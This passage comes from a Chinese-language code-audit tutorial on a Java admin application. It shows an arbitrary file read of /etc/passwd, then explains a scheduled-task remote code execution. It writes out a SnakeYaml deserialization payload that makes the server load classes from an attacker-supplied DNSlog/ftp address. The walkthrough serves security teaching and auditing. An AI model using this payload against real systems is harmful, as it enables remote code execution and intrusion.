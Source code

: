 ②、使用代码审计构造出的payload进行构造请求，如下图所示：

[![渗透任意文件读取构造请求](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fpower7089.github.io%2Fimg%2F%25E6%25B8%2597%25E9%2580%258F%25E4%25BB%25BB%25E6%2584%258F%25E6%2596%2587%25E4%25BB%25B6%25E8%25AF%25BB%25E5%258F%2596%25E6%259E%2584%25E9%2580%25A0%25E8%25AF%25B7%25E6%25B1%2582.jpg)](https://power7089.github.io/img/%E6%B8%97%E9%80%8F%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%9E%84%E9%80%A0%E8%AF%B7%E6%B1%82.jpg "渗透任意文件读取构造请求")

渗透任意文件读取构造请求

③、点击发送数据包，即可看到`/etc/passwd`文件内容，如下图所示：

[![任意文件读取内容](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fpower7089.github.io%2Fimg%2F%25E4%25BB%25BB%25E6%2584%258F%25E6%2596%2587%25E4%25BB%25B6%25E8%25AF%25BB%25E5%258F%2596%25E5%2586%2585%25E5%25AE%25B9.jpg)](https://power7089.github.io/img/%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E5%86%85%E5%AE%B9.jpg "任意文件读取内容")

任意文件读取内容

### 5、定时任务处漏洞验证

#### 5.1、漏洞简述

在对定时任务代码审计时发现该功能存在漏洞。在`添加任务->调用目标字符串`处可操作class类，通过代码审计发现使用的反射方式，也就是说目标class类存在漏洞的话即可利用反射触发RCE漏洞。

#### 5.2、漏洞验证

我们使用的是Linux环境启动的本项目。具体启动部署请跳转到`第二章 3、Linux环境的项目部署流程` 。

在代码审计处，我们知道如果是调用class类，最终执行为`Object bean = Class.forName(beanName).newInstance();`。

问题来了，如果此处想要成功实例化并且RCE的话，那么必须满足几个条件：

1-
2-
3-
4-

    1、类的构造方法为Public2、类的构造方法无参3、调用目标字符串的参数为：支持字符串，布尔类型，长整型，浮点型，整型4、调用目标方法除了为Public，无参，还需要具有执行代码/命令的能力

有的朋友一开始会想到调用`java.lang.Runtime.getRuntime().exec("")`。但经过上面条件的梳理，发现该类不满足条件，因为他的构造方法是private。

不知道大家还记得`SnakeYaml组件漏洞代码审计`不。

在组件检测时发现了本项目使用了`SnakeYaml`。经过学习我们知道，该组件只要可以控制`yaml.load()`即可触发反序列漏洞。

经过探索学习，`SnakeYaml的yaml.load()`是满足以上条件的，具体操作如下。

**5.2.1、基础验证**

①、先登录DNSlog平台，获取一个DNSlog地址。

②、然后进入后台，访问`系统监控-定时任务`功能，点击新增，在目标字符串下添加如下内容（即攻击payload）：

1-

    org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["ftp://此处填入DNSlog地址"]]]]')

[![调用目标字符串yaml](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fpower7089.github.io%2Fimg%2F%25E8%25B0%2583%25E7%2594%25A8%25E7%259B%25AE%25E6%25A0%2587%25E5%25AD%2597%25E7%25AC%25A6%25E4%25B8%25B2yaml.jpg)](https://power7089.github.io/img/%E8%B0%83%E7%94%A8%E7%9B%AE%E6%A0%87%E5%AD%97%E7%AC%A6%E4%B8%B2yaml.jpg "调用目标字符串yaml")
